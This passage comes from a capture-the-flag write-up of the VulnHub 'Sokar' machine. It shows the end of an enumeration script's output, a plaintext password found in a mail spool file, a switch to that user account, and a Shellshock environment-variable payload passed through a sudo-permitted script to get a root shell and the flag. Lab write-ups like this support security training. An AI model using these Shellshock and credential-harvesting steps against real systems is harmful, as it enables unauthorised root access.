-rw-r--r--. 1 root root  338 Nov 26  2008 image3.png
-rw-r--r--. 1 root root  268 Nov 20  2004 index.gif
-rw-r--r--. 1 root root  332 Nov 26  2008 index.png
-rw-r--r--. 1 root root  276 Nov 20  2004 layout.gif
-rw-r--r--. 1 root root  323 Nov 26  2008 layout.png
-rw-r--r--. 1 root root  172 Nov 20  2004 left.gif
-rw-r--r--. 1 root root  257 Nov 26  2008 left.png
-rw-r--r--. 1 root root  249 Nov 20  2004 link.gif
-rw-r--r--. 1 root root  314 Nov 26  2008 link.png
-rw-r--r--. 1 root root  243 Nov 20  2004 movie.gif
-rw-r--r--. 1 root root  272 Nov 26  2008 movie.png
-rw-r--r--. 1 root root  237 Nov 20  2004 p.gif
-rw-r--r--. 1 root root  298 Nov 26  2008 p.png
-rw-r--r--. 1 root root  251 Nov 20  2004 patch.gif
-rw-r--r--. 1 root root  310 Nov 26  2008 patch.png
-rw-r--r--. 1 root root  249 Nov 20  2004 pdf.gif
-rw-r--r--. 1 root root  304 Nov 26  2008 pdf.png
-rw-r--r--. 1 root root  188 Nov 20  2004 pie0.gif
-rw-r--r--. 1 root root  259 Nov 26  2008 pie0.png
-rw-r--r--. 1 root root  198 Nov 20  2004 pie1.gif
-rw-r--r--. 1 root root  279 Nov 26  2008 pie1.png
-rw-r--r--. 1 root root  198 Nov 20  2004 pie2.gif
-rw-r--r--. 1 root root  272 Nov 26  2008 pie2.png
-rw-r--r--. 1 root root  191 Nov 20  2004 pie3.gif
-rw-r--r--. 1 root root  276 Nov 26  2008 pie3.png
-rw-r--r--. 1 root root  193 Nov 20  2004 pie4.gif
-rw-r--r--. 1 root root  258 Nov 26  2008 pie4.png
-rw-r--r--. 1 root root  189 Nov 20  2004 pie5.gif
-rw-r--r--. 1 root root  277 Nov 26  2008 pie5.png
-rw-r--r--. 1 root root  186 Nov 20  2004 pie6.gif
-rw-r--r--. 1 root root  273 Nov 26  2008 pie6.png
-rw-r--r--. 1 root root  185 Nov 20  2004 pie7.gif
-rw-r--r--. 1 root root  275 Nov 26  2008 pie7.png
-rw-r--r--. 1 root root  173 Nov 20  2004 pie8.gif
-rw-r--r--. 1 root root  259 Nov 26  2008 pie8.png
-rw-r--r--. 1 root root  254 Nov 20  2004 portal.gif
-rw-r--r--. 1 root root  319 Aug 28  2007 portal.png
lrwxrwxrwx. 1 root root   40 Nov 12  2014 poweredby.png -> ../../../usr/share/pixmaps/poweredby.png
-rw-r--r--. 1 root root  244 Nov 20  2004 ps.gif
-rw-r--r--. 1 root root  303 Nov 26  2008 ps.png
-rw-r--r--. 1 root root  267 Nov 20  2004 quill.gif
-rw-r--r--. 1 root root  329 Aug 28  2007 quill.png
-rw-r--r--. 1 root root  172 Nov 20  2004 right.gif
-rw-r--r--. 1 root root  254 Nov 26  2008 right.png
-rw-r--r--. 1 root root  258 Nov 20  2004 screw1.gif
-rw-r--r--. 1 root root  328 Nov 26  2008 screw1.png
-rw-r--r--. 1 root root  263 Nov 20  2004 screw2.gif
-rw-r--r--. 1 root root  333 Nov 26  2008 screw2.png
-rw-r--r--. 1 root root  242 Nov 20  2004 script.gif
-rw-r--r--. 1 root root  290 Nov 26  2008 script.png
drwxr-xr-x. 2 root root 4.0K Nov 12  2014 small
-rw-r--r--. 1 root root  248 Nov 20  2004 sound1.gif
-rw-r--r--. 1 root root  331 Aug 28  2007 sound1.png
-rw-r--r--. 1 root root  221 Nov 20  2004 sound2.gif
-rw-r--r--. 1 root root  315 Nov 26  2008 sound2.png
-rw-r--r--. 1 root root  285 Nov 20  2004 sphere1.gif
-rw-r--r--. 1 root root  347 Nov 26  2008 sphere1.png
-rw-r--r--. 1 root root  264 Nov 20  2004 sphere2.gif
-rw-r--r--. 1 root root  339 Aug 28  2007 sphere2.png
-rw-r--r--. 1 root root  219 Nov 20  2004 tar.gif
-rw-r--r--. 1 root root  261 Nov 26  2008 tar.png
-rw-r--r--. 1 root root  251 Nov 20  2004 tex.gif
-rw-r--r--. 1 root root  310 Nov 26  2008 tex.png
-rw-r--r--. 1 root root  229 Nov 20  2004 text.gif
-rw-r--r--. 1 root root  288 Nov 26  2008 text.png
-rw-r--r--. 1 root root  242 Nov 20  2004 transfer.gif
-rw-r--r--. 1 root root  334 Nov 26  2008 transfer.png
-rw-r--r--. 1 root root  245 Nov 20  2004 unknown.gif
-rw-r--r--. 1 root root  307 Nov 26  2008 unknown.png
-rw-r--r--. 1 root root  164 Nov 20  2004 up.gif
-rw-r--r--. 1 root root  255 Nov 26  2008 up.png
-rw-r--r--. 1 root root  236 Nov 20  2004 uu.gif
-rw-r--r--. 1 root root  296 Nov 26  2008 uu.png
-rw-r--r--. 1 root root  236 Nov 20  2004 uuencoded.gif
-rw-r--r--. 1 root root  296 Nov 26  2008 uuencoded.png
-rw-r--r--. 1 root root  228 Nov 20  2004 world1.gif
-rw-r--r--. 1 root root  332 Aug 28  2007 world1.png
-rw-r--r--. 1 root root  261 Nov 20  2004 world2.gif
-rw-r--r--. 1 root root  363 Nov 26  2008 world2.png

/var/www/icons/small:
total 264K
drwxr-xr-x. 2 root root 4.0K Nov 12  2014 .
drwxr-xr-x. 3 root root 4.0K Nov 12  2014 ..
-rw-r--r--. 1 root root  129 Nov 20  2004 back.gif
-rw-r--r--. 1 root root  181 Aug 28  2007 back.png
-rw-r--r--. 1 root root  134 Nov 20  2004 binary.gif
-rw-r--r--. 1 root root  172 Aug 28  2007 binary.png
-rw-r--r--. 1 root root  131 Nov 20  2004 binhex.gif
-rw-r--r--. 1 root root  178 Aug 28  2007 binhex.png
-rw-r--r--. 1 root root   55 Nov 20  2004 blank.gif
-rw-r--r--. 1 root root  100 Aug 28  2007 blank.png
-rw-r--r--. 1 root root  139 Nov 20  2004 broken.gif
-rw-r--r--. 1 root root  184 Aug 28  2007 broken.png
-rw-r--r--. 1 root root  128 Nov 20  2004 burst.gif
-rw-r--r--. 1 root root  210 Aug 28  2007 burst.png
-rw-r--r--. 1 root root  130 Nov 20  2004 comp1.gif
-rw-r--r--. 1 root root  216 Aug 28  2007 comp1.png
-rw-r--r--. 1 root root  131 Nov 20  2004 comp2.gif
-rw-r--r--. 1 root root  215 Aug 28  2007 comp2.png
-rw-r--r--. 1 root root  128 Nov 20  2004 compressed.gif
-rw-r--r--. 1 root root  212 Aug 28  2007 compressed.png
-rw-r--r--. 1 root root  114 Nov 20  2004 continued.gif
-rw-r--r--. 1 root root  163 Aug 28  2007 continued.png
-rw-r--r--. 1 root root  132 Nov 20  2004 dir.gif
-rw-r--r--. 1 root root  175 Nov 20  2004 dir.png
-rw-r--r--. 1 root root  122 Nov 20  2004 dir2.gif
-rw-r--r--. 1 root root  161 Nov 20  2004 dir2.png
-rw-r--r--. 1 root root  191 Nov 20  2004 doc.gif
-rw-r--r--. 1 root root  222 Aug 28  2007 doc.png
-rw-r--r--. 1 root root  125 Nov 20  2004 forward.gif
-rw-r--r--. 1 root root  174 Aug 28  2007 forward.png
-rw-r--r--. 1 root root  116 Nov 20  2004 generic.gif
-rw-r--r--. 1 root root  149 Aug 28  2007 generic.png
-rw-r--r--. 1 root root  127 Nov 20  2004 generic2.gif
-rw-r--r--. 1 root root  179 Aug 28  2007 generic2.png
-rw-r--r--. 1 root root  113 Nov 20  2004 generic3.gif
-rw-r--r--. 1 root root  171 Aug 28  2007 generic3.png
-rw-r--r--. 1 root root  126 Nov 20  2004 image.gif
-rw-r--r--. 1 root root  197 Aug 28  2007 image.png
-rw-r--r--. 1 root root  138 Nov 20  2004 image2.gif
-rw-r--r--. 1 root root  203 Aug 28  2007 image2.png
-rw-r--r--. 1 root root  145 Nov 20  2004 index.gif
-rw-r--r--. 1 root root  225 Aug 28  2007 index.png
-rw-r--r--. 1 root root  187 Nov 20  2004 key.gif
-rw-r--r--. 1 root root  210 Aug 28  2007 key.png
-rw-r--r--. 1 root root  134 Nov 20  2004 movie.gif
-rw-r--r--. 1 root root  159 Aug 28  2007 movie.png
-rw-r--r--. 1 root root  182 Nov 20  2004 patch.gif
-rw-r--r--. 1 root root  211 Aug 28  2007 patch.png
-rw-r--r--. 1 root root  184 Nov 20  2004 ps.gif
-rw-r--r--. 1 root root  217 Aug 28  2007 ps.png
-rw-r--r--. 1 root root 3.8K Nov 20  2004 rainbow.gif
-rw-r--r--. 1 root root 2.4K Aug 28  2007 rainbow.png
-rw-r--r--. 1 root root  130 Nov 20  2004 sound.gif
-rw-r--r--. 1 root root  197 Aug 28  2007 sound.png
-rw-r--r--. 1 root root  119 Nov 20  2004 sound2.gif
-rw-r--r--. 1 root root  171 Aug 28  2007 sound2.png
-rw-r--r--. 1 root root  132 Nov 20  2004 tar.gif
-rw-r--r--. 1 root root  173 Aug 28  2007 tar.png
-rw-r--r--. 1 root root  128 Nov 20  2004 text.gif
-rw-r--r--. 1 root root  163 Aug 28  2007 text.png
-rw-r--r--. 1 root root  124 Nov 20  2004 transfer.gif
-rw-r--r--. 1 root root  211 Aug 28  2007 transfer.png
-rw-r--r--. 1 root root  131 Nov 20  2004 unknown.gif
-rw-r--r--. 1 root root  172 Aug 28  2007 unknown.png
-rw-r--r--. 1 root root  125 Nov 20  2004 uu.gif
-rw-r--r--. 1 root root  166 Aug 28  2007 uu.png


### INTERESTING FILES ####################################
[-] Useful file locations:
/usr/bin/nc
/usr/bin/wget
/usr/bin/gcc
/usr/bin/curl


[-] Can we read/write sensitive files:
-rw-r--r-- 1 root root 985 Dec 30  2014 /etc/passwd
-rw-r--r-- 1 root root 518 Dec 30  2014 /etc/group
-rw-r--r--. 1 root root 1796 Oct 15  2012 /etc/profile
---------- 1 root root 857 Dec 30  2014 /etc/shadow


[-] NFS config details:
-rw-r--r--. 1 root root 0 Jan 12  2010 /etc/exports


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[-] All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 449 Aug 18  2014 /etc/krb5.conf
-rw-r--r--. 1 root root 2293 Apr  5  2012 /etc/libuser.conf
-rw-r-----. 1 root root 3181 Jan 23  2013 /etc/sudo-ldap.conf
-rw-r--r--. 1 root root 9 Oct 15  2012 /etc/host.conf
-rw-rw-rw- 1 root root 19 Jan  2  2015 /etc/resolv.conf
-rw-r--r--. 1 root root 2875 Jan  9  2013 /etc/rsyslog.conf
-rw-r--r--. 1 root root 519 Feb 22  2013 /etc/dracut.conf
-rw-r--r--. 1 root root 1688 May  4  2010 /etc/nsswitch.conf
-rw-r--r--. 1 root root 0 Oct 15  2014 /etc/gai.conf
-rw-r-----. 1 root root 191 Mar  1  2012 /etc/libaudit.conf
-rw-r--r--. 1 root root 1150 Feb 22  2013 /etc/sysctl.conf
-rw-r-----. 1 root root 1786 Sep 25  2012 /etc/sudo.conf
-rw-r--r-- 1 root root 827 Oct 15  2014 /etc/mke2fs.conf
-rw-r--r--. 1 root root 28 Jul 24  2013 /etc/ld.so.conf
-rw-r--r--. 1 root root 216 Feb 22  2013 /etc/sestatus.conf
-rw-r--r--. 1 root root 662 Aug 29  2007 /etc/logrotate.conf
-rw-r--r--. 1 root root 969 Feb 22  2013 /etc/yum.conf


[-] Location and contents (if accessible) of .bash_history file(s):
/home/bynarr/.bash_history


[-] Any interesting mail in /var/mail:
lrwxrwxrwx. 1 root root 10 Nov 12  2014 /var/mail -> spool/mail


### SCAN COMPLETE ####################################
bash-4.1$
```

```sh
bash-4.1$ cd /var/mail/
bash-4.1$ ls -l
total 4
-rw-rw----  1 apophis mail   0 Dec 30  2014 apophis
-rw-rw-r--. 1 bynarr  mail 551 Dec 30  2014 bynarr
bash-4.1$ ls -l
total 4
-rw-rw----  1 apophis mail   0 Dec 30  2014 apophis
-rw-rw-r--. 1 bynarr  mail 551 Dec 30  2014 bynarr
bash-4.1$ cat bynarr
Return-Path: <root@sokar>
Delivered-To: bynarr@localhost
Received:  from root by localhost
To: <bynarr@sokar>
Date: Thu, 13 Nov 2014 22:04:31 +0100
Subject: Welcome

Dear Bynarr.  Welcome to Sokar Inc. Forensic Development Team.
A user account has been setup for you.

UID 500 (bynarr)
GID 500 (bynarr)
    501 (forensic)

Password 'fruity'.  Please change this ASAP.
Should you require, you've been granted outbound ephemeral port access on 51242, to transfer non-sensitive forensic dumps out for analysis.

All the best in your new role!

  -Sokar-
bash-4.1$ cat apophis
cat: apophis: Permission denied
bash-4.1$
```

```sh
bash-4.1$ su - bynarr
Password:
[bynarr@sokar ~]$ ls -l
total 16
-rwxr-xr-x 1 root root   368 Jan 27  2015 lime
-rw------- 1 root root 10728 Nov 13  2014 lime.ko
[bynarr@sokar ~]$ groups
bynarr forensic
[bynarr@sokar ~]$
```

```sh
[bynarr@sokar ~]$ sudo -l
Matching Defaults entries for bynarr on this host:
    !requiretty, visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
    INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
    _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bynarr may run the following commands on this host:
    (ALL) NOPASSWD: /home/bynarr/lime
[bynarr@sokar ~]$ sudo HOSTNAME='() { :;};/bin/sh' /home/bynarr/lime
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1# cat /root/flag
                0   0
                |   |
            ____|___|____
         0  |~ ~ ~ ~ ~ ~|   0
         |  |   Happy   |   |
      ___|__|___________|___|__
      |/\/\/\/\/\/\/\/\/\/\/\/|
  0   |    B i r t h d a y    |   0
  |   |/\/\/\/\/\/\/\/\/\/\/\/|   |
 _|___|_______________________|___|__
|/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/|
|                                   |
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
sh-4.1#
```

###### Reference

- [`Cool tricks`](https://www.youtube.com/watch?v=k6ri-LFWEj4)
